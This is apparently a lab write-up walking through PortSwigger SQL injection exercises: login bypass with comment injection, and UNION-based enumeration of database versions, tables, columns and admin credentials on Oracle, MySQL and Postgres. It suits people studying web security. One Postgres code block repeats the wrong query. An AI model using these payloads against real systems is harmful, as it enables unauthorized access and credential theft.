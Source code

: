 # SQL Injection Vulnerability in WHERE Clause Allowing Retrieval of Hidden Data

## Lab Description
![image](Picture/lab1.png)

The query used by the application is provided in the lab description:
```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```
This query retrieves information from the `products` table, specifically selecting products that belong to the `Gifts` category and have the condition `released = 1`, meaning the products have been released.

To see all products, we need to make this condition always `TRUE`:
```sql
Gifts' OR 1=1--
```
The condition `1=1` is always true, and `--` is used to start a comment in SQL, so everything after it is ignored.

# SQL Injection Vulnerability Allowing Login Bypass

## Lab Description
![image](Picture/lab2.png)

The query used in the lab might look something like this:
```sql
SELECT * FROM users WHERE username = 'username' AND password = 'password';
```
To bypass the `AND password = 'password'` condition, I inject into the username field using `--`:

```sql
WHERE username = 'administrator' --
```

This will result in a query like:
```sql
SELECT * FROM users WHERE username = 'administrator' -- ' AND password = '<PASSWORD>'
```
![image](Picture/loginbypass.png)

The final query becomes:
```sql
SELECT * FROM users WHERE username = 'administrator';
```

# SQL Injection Attack: Querying the Database Type and Version on Oracle

## Lab Description
![image](Picture/lab3.png)

In Oracle, every `SELECT` statement must specify a table to select `FROM`. There is a table in Oracle that can be used for this purpose called `dual`.

There are two different methods to query the database version on Oracle:
- `SELECT banner FROM v$version`
- `SELECT version FROM v$instance`

To solve the lab, follow these steps to find the columns containing strings:

- First, determine the number of columns by injecting `' ORDER BY 1--`. Here, 1 is the column number. Continue increasing until an error occurs, which indicates the correct number of columns. For example, the result indicates there are 2 columns.
  ```sql
  SELECT * FROM someTable WHERE category = 'any' ORDER BY 2--
  ```
- Next, check which columns contain strings by injecting `' UNION SELECT 'a','a' FROM DUAL--`. Both columns should be string columns.
  ```sql
  SELECT * FROM someTable WHERE category = 'any' UNION SELECT 'a','a' FROM DUAL--
  ```
- Finally, to obtain the version information, inject `' UNION SELECT 'a', banner FROM v$version--`.
  ```sql
  SELECT * FROM someTable WHERE category='any' UNION SELECT 'a', banner FROM v$version--'
  ```

# SQL Injection Attack: Querying the Database Type and Version on MySQL and Microsoft

## Lab Description
![image](Picture/lab4.png)

The steps in this lab are almost identical to the lab [SQL Injection Attack: Querying the Database Type and Version on Oracle](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-oracle).

The main difference is that in MySQL, comments can be started with `#`.

To query the database version:
- Inject `' UNION SELECT 'a', @@version#`.
  ```sql
  SELECT * FROM someTable WHERE category='any' UNION SELECT 'a', @@version#'
  ```

# SQL Injection Attack: Listing the Database Contents on Oracle

## Lab Description
![image](Picture/lab5.png)

The database in use here is Oracle, with information for all tables stored in the `ALL_TABLES` view.

In this [document](https://docs.oracle.com/en/database/oracle/oracle-database/19/refrn/ALL_TABLES.html), I am interested in the `table_name` column. So, I inject `' UNION SELECT table_name, null FROM all_tables--` and I see the table `USERS_XJIAWY`.

Steps:

- The [ALL_TAB_COLUMNS](https://docs.oracle.com/en/database/oracle/oracle-database/21/refrn/ALL_TAB_COLUMNS.html#GUID-F218205C-7D76-4A83-8691-BFD2AD372B63) view holds information about the columns of the tables, specifically the `column_name` column. Inject `' UNION SELECT column_name, null FROM all_tab_columns WHERE table_name = 'USERS_XJIAWY'--`.
  ```sql
  SELECT * FROM someTable WHERE category='any' UNION SELECT column_name, null FROM all_tab_columns WHERE table_name = 'USERS_XJIAWY'--
  ```
  I found the columns `USERNAME_HDFLSL` and `PASSWORD_VASGBS`.
- Next, use `' UNION SELECT USERNAME_HDFLSL, PASSWORD_VASGBS FROM USERS_XJIAWY--`.
  ```sql
  SELECT * FROM someTable WHERE category='any' UNION SELECT USERNAME_HDFLSL, PASSWORD_VASGBS FROM USERS_XJIAWY--
  ```
  I found that the password for the `administrator` is `2ozd1e4np7yp6wc47rx3`.

- The last step is login to solve this lab.

# SQL injection attack, listing the database contents on non-Oracle databases
## Lab Description
![image](Picture/lab6.png)

Kiểm tra database thì thấy nó sử dụng `Postgres`, which holds the table information in the `information_schema.tables`.[The relevant documentation](https://www.postgresql.org/docs/9.1/infoschema-tables.html), we can see available columns are listed. So inject `' UNION SELECT table_name,NULL FROM information_schema.tables--` and I found the table `users_xaurai`.
```sql
  SELECT * FROM someTable WHERE category='any' UNION SELECT table_name,NULL FROM information_schema.tables--
```

Steps:
- `' UNION SELECT column_name, null FROM information_schema.columns WHERE table_name = 'users_xaurai'--`
  ```sql
  SELECT * FROM someTable WHERE category='any' UNION SELECT table_name,NULL FROM information_schema.tables--
  ```
  I found the columns `username_huyzfv` and `password_mxlnvz`.
- Next step, use `' UNION SELECT username_huyzfv, password_mxlnvz FROM users_xaurai--`.
  ```sql
  SELECT * FROM someTable WHERE category='any' UNION SELECT username_huyzfv, password_mxlnvz FROM users_xaurai--
  ```
  I found that the password for the `administrator` is `3r5z5qaj2hfhokbicr8a`.
  
- The last step is login to solve this lab.

